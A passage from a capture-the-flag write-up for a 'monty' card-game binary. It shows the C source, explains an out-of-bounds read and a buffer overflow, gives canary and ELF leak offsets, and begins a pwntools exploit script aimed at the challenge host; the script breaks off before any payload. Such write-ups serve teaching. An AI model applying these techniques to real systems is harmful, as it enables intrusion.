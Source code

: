 
  printf("==============================\n");

  printf("Show me the lady! ");
  scanf("%d", &index);

  printf("==============================\n");

  if (cards[index] == QUEEN) {
    printf("You win!\n");
  } else {
    printf("Just missed. Try again.\n");
  }

  printf("==============================\n");

  printf("Add your name to the leaderboard.\n");
  getchar();
  printf("Name: ");
  fgets(name, 52, stdin);

  printf("==============================\n");

  printf("Thanks for playing, %s!\n", name);
}

int main() {
  setup();
  printf("Welcome to 52-card monty!\n");
  printf("The rules of the game are simple. You are trying to guess which card "
         "is correct. You get two peeks. Show me the lady!\n");
  game();
  return 0;
}
{% endhighlight %}

We have an Out-Of-Bound read because the deck size is 52 while it checks to make sure the index we provide is within 0x52 (82 in decimal). Additionally, there is a BOF and win function inside.

```python
└─$ checksec --file=monty 
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   Canary found      NX enabled    PIE enabled     No RPATH   No RUNPATH   82 Symbols        No    0               2               monty
```

PIE and stack canary is enabled. With the 2 leaks that we can get, its clear that we should leak the canary and elf address. After looking around in gdb, we have determined that the canary is located at index 55 and we can get an elf leak at index 57.

### Exploit Script

{% highlight python %}
#!/usr/bin/python
from pwn import *
import warnings

warnings.filterwarnings("ignore",category=BytesWarning)

exe = context.binary = ELF('./monty')

host = "chall.lac.tf"
port = 31132

gdb_script = '''

'''

#p = exe.process()
p = remote(host,port)
#p = gdb.debug('./', gdbscript = gdb_script)
